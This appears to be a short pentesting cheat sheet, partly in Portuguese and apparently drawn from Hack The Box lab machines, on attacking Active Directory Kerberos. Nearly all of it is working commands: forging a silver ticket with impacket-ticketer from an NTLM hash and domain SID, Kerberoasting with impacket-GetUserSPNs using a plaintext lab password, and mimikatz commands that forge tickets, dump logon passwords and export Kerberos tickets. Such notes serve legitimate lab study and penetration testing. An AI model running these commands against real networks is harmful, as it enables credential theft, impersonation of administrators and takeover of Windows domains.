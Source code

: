     vi sid.sh
    chmod +x sid.sh
    ./sid.sh <DOMAIN_SID>
    # Example:
    ./sid.sh AQUAAAAAAAUVAAAAhQSCo0F98mxA04uXUwYAAA==
    S-1-5-21-2743207045-1827831105-2542523200-1619
    #Desconsiderar o -1619
    


## Generate Silver ticket

Prerequisites: NTLM Hash, Domain SID e SPN

    impacket-ticketer -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -dc-ip dc1.scrm.local -spn MSSQLSvc/dc1.scrm.local:1433 administrator
    
    KRB5CCNAME=administrator.ccache klist
    
    KRB5CCNAME=administrator.ccache mssqlclient.py -k dc1.scrm.local

The output file is administrator.ccache, which is a kerberos ticket as administrator that only the MSSQL service will trust.

## Kerbroasting

    impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.205.44 -request

Assim que conseguir quebrar o hash de senha com o que resultar do comando acima, podemos considerar duas possibildades:

Geração do silver ticket conforme os comandos abaixo:

    impacket-ticketer -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -dc-ip dc1.scrm.local -spn MSSQLSvc/dc1.scrm.local:1433 administrator
    
    KRB5CCNAME=administrator.ccache klist
    
    KRB5CCNAME=administrator.ccache mssqlclient.py -k dc1.scrm.local
    
ou com mimikatz localmente na máquina:

    ./m.exe
    kerberos::purge
    kerberos::golden /user:Administrator /domain:active.htb /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:MSSQLSvc/dc1.scrm.local:1433 /service:MSSQLSvc /rc4:<NTLM_HASH> /ptt

### mimikatz

    sekurlsa::tickets
    sekurlsa::logonpasswords
    sekurlsa::tickets /export
    kerberos::list /export
    